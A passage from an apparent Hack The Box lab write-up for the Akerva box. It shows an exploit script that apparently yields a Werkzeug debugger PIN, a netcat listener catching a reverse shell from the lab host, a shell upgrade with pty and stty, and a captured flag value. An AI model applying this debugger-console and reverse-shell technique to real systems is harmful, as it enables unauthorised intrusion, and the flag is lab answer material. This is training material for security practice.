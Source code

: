 ```
```
Then we can get the code and access to console
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ python3 exploit.py
238-222-144
```
![](images/Pasted%20image%2020250731141258.png)

Then we can use this console run any python command we wanted
![](images/Pasted%20image%2020250731141652.png)
```
──(wither㉿localhost)-[~/Templates/htb-labs/Akerva]
└─$ nc -lnvp 443   
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.13.37.11] 60416
bash: cannot set terminal process group (1239): Inappropriate ioctl for device
bash: no job control in this shell
aas@Leakage:~$ id
idw
uid=1000(aas) gid=1000(aas) groups=1000(aas),24(cdrom),30(dip),46(plugdev)
aas@Leakage:~$ whoami
```

Let's upgrade the shell
```
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

Then you can get another flag here
```
aas@Leakage:~$ ls -al
total 28
drwxr-xr-x 3 aas  aas  4096 Feb  9  2020 .
drwxr-xr-x 3 root root 4096 Feb  9  2020 ..
-rw------- 1 root root    0 Dec  7  2019 .bash_history
-rw-r--r-- 1 aas  aas   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aas  aas  3771 Apr  4  2018 .bashrc
-r-------- 1 aas  aas    21 Feb  9  2020 flag.txt
-rw-r--r-- 1 root root   38 Feb  9  2020 .hiddenflag.txt
dr-xr-x--- 2 aas  aas  4096 Feb 10  2020 .ssh
aas@Leakage:~$ cat .hiddenflag.txt
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}

```
